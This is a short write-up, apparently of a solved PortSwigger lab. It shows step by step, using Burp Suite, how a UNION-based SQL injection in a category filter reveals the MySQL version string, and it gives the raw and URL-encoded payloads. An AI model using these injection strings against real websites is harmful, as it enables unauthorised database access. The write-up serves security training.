 # SQL injection attack, querying the database type and version on MySQL and Microsoft

## This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

#mysql_database
___
To get MySQL database version
```sql
SELECT @@version
' UNION SELECT @@version --
```

step 1

select any category then go to
burpsuite => proxy => http history => click on =>`/filter?category=pets` => send to repeater

![screnshot](images/lab8_category_pets.jpg)

step 2

`' UNION SELECT @@version,NULL#` => URL Encoded (`'+UNION+SELECT+%40%40version,NULL%23`)
`/filter?category=Pets'+UNION+SELECT+%40%40version,NULL%23`

![screnshot](images/lab8_mysql_version_ubuntu_version.jpg)


step 3

To solve the lab
add `'+UNION+SELECT+%40%40version,NULL%23` at the end of URL

![screnshot](images/lab8_solved_lab.jpg)